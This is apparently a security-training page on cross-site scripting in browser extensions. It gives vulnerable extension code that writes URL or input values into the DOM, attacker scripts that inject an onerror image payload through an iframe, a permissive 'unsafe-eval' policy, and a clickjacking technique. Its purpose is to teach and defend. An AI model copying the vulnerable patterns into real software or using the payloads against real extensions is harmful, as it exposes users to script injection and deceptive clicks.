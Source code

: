 # BrowExt - XSS Example

{{#include ../../banners/hacktricks-training.md}}

## Cross-Site Scripting (XSS) through Iframe

In this setup, a **content script** is implemented to instantiate an Iframe, incorporating a URL with query parameters as the source of the Iframe:

```javascript
chrome.storage.local.get("message", (result) => {
  let constructedURL =
    chrome.runtime.getURL("message.html") +
    "?content=" +
    encodeURIComponent(result.message) +
    "&redirect=https://example.net/details"
  frame.src = constructedURL
})
```

A publicly accessible HTML page, **`message.html`**, is designed to dynamically add content to the document body based on the parameters in the URL:

```javascript
$(document).ready(() => {
  let urlParams = new URLSearchParams(window.location.search)
  let userContent = urlParams.get("content")
  $(document.body).html(
    `${userContent} <button id='detailBtn'>Details</button>`
  )
  $("#detailBtn").on("click", () => {
    let destinationURL = urlParams.get("redirect")
    chrome.tabs.create({ url: destinationURL })
  })
})
```

A malicious script is executed on an adversary's page, modifying the `content` parameter of the Iframe's source to introduce a **XSS payload**. This is achieved by updating the Iframe's source to include a harmful script:

```javascript
setTimeout(() => {
  let targetFrame = document.querySelector("iframe").src
  let baseURL = targetFrame.split("?")[0]
  let xssPayload = "<img src='invalid' onerror='alert(\"XSS\")'>"
  let maliciousURL = `${baseURL}?content=${encodeURIComponent(xssPayload)}`

  document.querySelector("iframe").src = maliciousURL
}, 1000)
```

An overly permissive Content Security Policy such as:

```json
"content_security_policy": "script-src 'self' 'unsafe-eval'; object-src 'self';"
```

allows the execution of JavaScript, making the system vulnerable to XSS attacks.

An alternative approach to provoke the XSS involves creating an Iframe element and setting its source to include the harmful script as the `content` parameter:

```javascript
let newFrame = document.createElement("iframe")
newFrame.src =
  "chrome-extension://abcdefghijklmnopabcdefghijklmnop/message.html?content=" +
  encodeURIComponent("<img src='x' onerror='alert(\"XSS\")'>")
document.body.append(newFrame)
```

## DOM-based XSS + ClickJacking

This example was taken from the [original post writeup](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/).

The core issue arises from a DOM-based Cross-site Scripting (XSS) vulnerability located in **`/html/bookmarks.html`**. The problematic JavaScript, part of **`bookmarks.js`**, is detailed below:

```javascript
$("#btAdd").on("click", function () {
  var bookmarkName = $("#txtName").val()
  if (
    $(".custom-button .label").filter(function () {
      return $(this).text() === bookmarkName
    }).length
  )
    return false

  var bookmarkItem = $('<div class="custom-button">')
  bookmarkItem.html('<span class="label">' + bookmarkName + "</span>")
  bookmarkItem.append('<button class="remove-btn" title="delete">x</button>')
  bookmarkItem.attr("data-title", bookmarkName)
  bookmarkItem.data("timestamp", new Date().getTime())
  $("section.bookmark-container .existing-items").append(bookmarkItem)
  persistData()
})
```

This snippet fetches the **value** from the **`txtName`** input field and uses **string concatenation to generate HTML**, which is then appended to the DOM using jQuery’s `.append()` function.

Typically, the Chrome extension's Content Security Policy (CSP) would prevent such vulnerabilities. However, due to **CSP relaxation with ‘unsafe-eval’** and the use of jQuery’s DOM manipulation methods (which employ [`globalEval()`](https://api.jquery.com/jquery.globaleval/) to pass scripts to [`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) upon DOM insertion), exploitation is still possible.

While this vulnerability is significant, its exploitation is usually contingent on user interaction: visiting the page, entering an XSS payload, and activating the “Add” button.

To enhance this vulnerability, a secondary **clickjacking** vulnerability is exploited. The Chrome extension's manifest showcases an extensive `web_accessible_resources` policy:

```json
"web_accessible_resources": [
    "html/bookmarks.html",
    "dist/*",
    "assets/*",
    "font/*",
    [...]
],
```

Notably, the **`/html/bookmarks.html`** page is prone to framing, thus vulnerable to **clickjacking**. This vulnerability is leveraged to frame the page within an attacker’s site, overlaying it with DOM elements to redesign the interface deceptively. This manipulation leads victims to interact with the underlying extension unintentionally.

## References

- [https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/](https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/)
- [https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/)

{{#include ../../banners/hacktricks-training.md}}


